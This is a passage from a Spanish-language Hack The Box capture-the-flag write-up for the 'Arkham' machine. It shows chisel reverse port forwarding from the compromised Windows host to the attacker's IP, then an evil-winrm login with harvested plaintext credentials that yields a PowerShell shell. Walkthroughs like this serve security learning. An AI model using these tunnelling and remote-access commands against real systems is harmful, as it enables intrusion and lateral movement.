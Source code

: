 Ahora, le indicamos a nuestra máquina atacante que levante el puerto **5988** (que sera el que reciba el Port Fortwarding) y actue como servidor (listener) mediante **chisel**:

```bash
❭ ./chisel server -p 5988 --reverse
2021/04/26 05:50:07 server: Reverse tunnelling enabled
2021/04/26 05:50:07 server: Fingerprint hZ7G/q+Y+FZ0cm+H0AlBa9rOHdjlYpb59JtMBGs13eQ=
2021/04/26 05:50:07 server: Listening on http://0.0.0.0:5988
```

Tamo, ahora vamos al cliente e indicamos que tome el puerto **5985** y reenvie su trafico al puerto **5988** de la máquina **10.10.14.14** que simula realmente el puerto **5985** del localhost:

```powershell
c:\Users\Alfred\Videos>chisel.exe client 10.10.14.14:5988 R:5985:localhost:5985
chisel.exe client 10.10.14.14:5988 R:5985:localhost:5985
2021/04/28 00:42:05 client: Connecting to ws://10.10.14.14:5988
2021/04/28 00:42:07 client: Connected (Latency 200.7885ms)
```

Recibimos en el servidor:

```bash
...
2021/04/26 25:25:25 server: session#1: tun: proxy#R:5985=>localhost:5985: Listening
```

Validando el contenido del puerto **5988** vemos:

```bash
❭ lsof -i:5988
COMMAND     PID USER   FD   TYPE  DEVICE SIZE/OFF NODE NAME
chisel  1050047 root    6u  IPv6 4641412      0t0  TCP *:5988 (LISTEN)
chisel  1050047 root    7u  IPv6 4642498      0t0  TCP 10.10.14.14:5988->10.10.10.130:49772 (ESTABLISHED)
❭ lsof -i:5985
COMMAND     PID USER   FD   TYPE  DEVICE SIZE/OFF NODE NAME
chisel  1050047 root    8u  IPv6 4642501      0t0  TCP *:5985 (LISTEN)
```

Bien, ahora probemos conectarnos mediante **evil-winrm** con las credenciales que tenemos:

* Toma por defecto el puerto **5985**, y pues como hay un redireccionamiento actual hacia ese puerto de nuestra máquina, no debemos indicarselo ;)

```bash
❭ evil-winrm -i localhost -u 'Batman' -p 'Zx^#QZX+T!123'
```

![179bash_evilwinrm_batmanSH_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/arkham/179bash_evilwinrm_batmanSH_done.png)

Perfecto, tenemos una **PowerShell** como el usuario **batman** en el sistema :O Sigamos jugando...

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}
